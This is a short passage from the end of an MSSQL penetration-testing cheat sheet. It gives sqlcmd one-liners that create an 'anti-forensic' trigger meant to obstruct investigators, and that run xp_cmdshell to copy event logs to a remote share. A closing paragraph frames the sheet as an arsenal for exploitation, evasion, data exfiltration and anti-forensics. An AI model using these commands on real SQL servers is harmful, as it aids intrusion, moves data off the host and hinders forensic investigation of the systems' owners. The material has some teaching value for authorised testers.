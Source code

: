 ### 24.4 Deploying Anti-forensic SQL Server Triggers
- **Creating Anti-forensic Triggers**:
  ```bash
  sqlcmd -S <target_ip> -U <username> -P <password> -Q "CREATE TRIGGER AntiForensicTrigger ON DATABASE FOR DELETE AS BEGIN IF EXISTS (SELECT * FROM DELETED WHERE username = 'investigator') BEGIN ROLLBACK; END END;"
  ```
  Deploy anti-forensic triggers that prevent certain forensic actions from being logged or executed.

### 24.5 Secure Log Management
- **Forwarding Logs to Secure Remote Server**:
  ```bash
  sqlcmd -S <target_ip> -U <username> -P <password> -Q "EXEC xp_cmdshell 'wevtutil qe Application /c:100 /f:text > \\\\secure_server\\share\\application_logs.txt';"
  ```
  Securely forward logs to a remote server to prevent tampering during investigations.

This extended and advanced MSSQL penetration testing cheat sheet provides a comprehensive arsenal of techniques and strategies for exploiting, evading detection, and securing SQL Server environments. These advanced methods address various aspects of penetration testing, including leveraging sophisticated exploitation techniques, data exfiltration, privilege escalation, anti-forensics, and forensic analysis, ensuring a thorough and in-depth approach to SQL Server security assessments.